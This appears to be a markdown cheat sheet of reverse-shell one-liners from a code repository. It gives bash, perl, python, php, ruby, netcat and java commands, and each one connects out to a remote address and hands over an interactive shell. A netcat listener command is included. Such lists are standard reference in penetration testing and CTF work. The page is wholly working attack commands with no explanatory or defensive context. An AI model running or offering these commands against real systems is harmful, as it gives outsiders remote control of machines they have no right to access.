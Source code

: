 # Reverse shell

## bash

```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## perl

```shell
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php

```shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby

```shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## netcat

```shell
nc -e /bin/sh target 4444 # linux, use /bin/bash of sh doesn't work
nc.exe 192.168.100.113 4444 –e cmd.exe # windows
```

### netcat listener

```shell
nc -lvnp 4444
```

## java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
